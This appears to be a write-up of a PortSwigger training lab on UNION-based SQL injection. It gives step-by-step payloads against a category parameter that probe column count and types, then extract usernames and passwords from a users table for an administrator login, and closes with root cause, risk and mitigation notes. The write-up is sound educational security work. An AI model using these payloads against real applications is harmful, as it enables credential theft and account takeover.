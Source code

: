 # SQL Injection - UNION Attack: Retrieve Data

## Goal:
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

---

## Vulnerability Analysis

### Attack Vector Identification
- **Entry Point**: `category` parameter in GET request
- **Vulnerability Type**: T1190.001 - SQL Injection: UNION Data Extraction (CWE-89)
- **Security Flaw:** User input is embedded directly into SQL queries

### Vulnerability Assessment & Exploitation

**Initial Approach:**
- Intercepted HTTP requests using Burp Suite
- Identified category parameter as potential injection point
- Performed systematic input validation testing

**Step 1: Determining Column Count**

```sql
' UNION SELECT NULL,NULL--
```
Response: HTTP/2 200 OK

**Step 2: Identifying String-Compatible Columns**

**Testing first column:**
```sql
' UNION SELECT 'a',NULL--
```
Response: HTTP/2 200 OK

**Testing second column:**
```sql
' UNION SELECT NULL,'a'--
```
Response: HTTP/2 200 OK

**Testing both columns:**
```sql
' UNION SELECT 'a','a'--
```
Response: HTTP/2 200 OK

**Step 3: Retrieving Data from Users Table**

```sql
' UNION SELECT username,password FROM users--
```

![burpsuite response](./misc-images/05-1.png)

This retrieved all usernames and passwords including the administrator.

Logged in as the administrator using the password retrieved.

---

## Security Assessment

### Root Cause Analysis
- Application concatenates user input directly into SQL queries
- No input validation or sanitization implemented
- Parameterized queries (prepared statements) are not used

### Risk Assessment
| Category | Impact |
|----------|--------|
| Confidentiality | High – Sensitive user data exposed |
| Authentication | High – Credentials leaked |
| Information Disclosure | High – Database structure revealed |

---

## Mitigation

- Use parameterized queries (prepared statements) instead of building SQL statements with user input. This prevents user-controlled input from being executed as SQL code.

Check syntax [here](/PortSwigger-web-security-academy/SQL-injection/01-sqli-where-clause.md#mitigation)

- Restrict database permissions using the principle of least privilege.

---

## Reflection

This lab demonstrated how to retrieve sensitive data from other tables using UNION-based SQL injection. The `UNION SELECT` technique proved highly effective in extracting usernames and passwords from the users table. Learned the critical importance of proper input validation and database access controls to prevent unauthorized data access.

---

## Notes

